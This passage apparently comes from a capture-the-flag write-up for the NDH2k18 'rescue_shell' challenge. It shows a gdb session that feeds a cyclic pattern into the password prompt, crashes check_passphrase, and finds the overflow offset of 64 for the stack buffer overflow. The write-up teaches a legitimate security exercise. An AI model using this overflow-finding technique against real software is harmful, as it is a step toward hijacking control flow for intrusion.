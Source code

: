For this step, I used gdb along with wapiflapi’s gxf extension.
```
$ gdb ./rescue 
Reading symbols from rescue...(no debugging symbols found)...done.
(gdb) gx cyclic 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac
(gdb) r
Starting program: /home/ark/security/challz/NDH2k18_quals/rescue_shell/rescue 
RescueShell 0.4
=================

Welcome anonymous ! This shell is restricted, please log in.

Password: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac

Program received signal SIGSEGV, Segmentation fault.
0x00000000004007a5 in check_passphrase ()
-----------------------------------registers------------------------------------
rax : 0
rbx : 0
rcx : 99 'c'
rdx : 0
rsi : 0x6012c0 : 'changeme203\n'
rdi : 0x7fffffffda30 : 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama' + ...
rbp : 'qaaaraaa' (0x6161617261616171)
rsp : 0x7fffffffda78 : 'saaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfa' + ...
r8  : 0
r9  : 119 'w'
r10 : 180
r11 : 12
r12 : 0x400660 <_start+0>:	xor    ebp,ebp
r13 : 0x7fffffffdcc0 : 1
r14 : 0
r15 : 0
rip : 0x4007a5 <check_passphrase+79>:	ret    
--------------------------------------code--------------------------------------
   0x000000000040079e <check_passphrase+72>:	sete   al
   0x00000000004007a1 <check_passphrase+75>:	movzx  eax,al
   0x00000000004007a4 <check_passphrase+78>:	leave  
=> 0x00000000004007a5 <check_passphrase+79>:	ret    
-------------------------------------stack--------------------------------------
 0 0x7fffffffda78 : 'saaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfa' + ...
 8 0x7fffffffda80 : 'uaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabha' + ...
16 0x7fffffffda88 : 'waaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabja' + ...
24 0x7fffffffda90 : 'yaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaabla' + ...
32 0x7fffffffda98 : 'baabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabna' + ...
40 0x7fffffffdaa0 : 'daabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpa' + ...
48 0x7fffffffdaa8 : 'faabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabra' + ...
56 0x7fffffffdab0 : 'haabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabta' + ...
-------------------------------------frame--------------------------------------
#0  0x00000000004007a5 in check_passphrase ()
(gdb) gx cyclic -s qaaaraaa
64
```
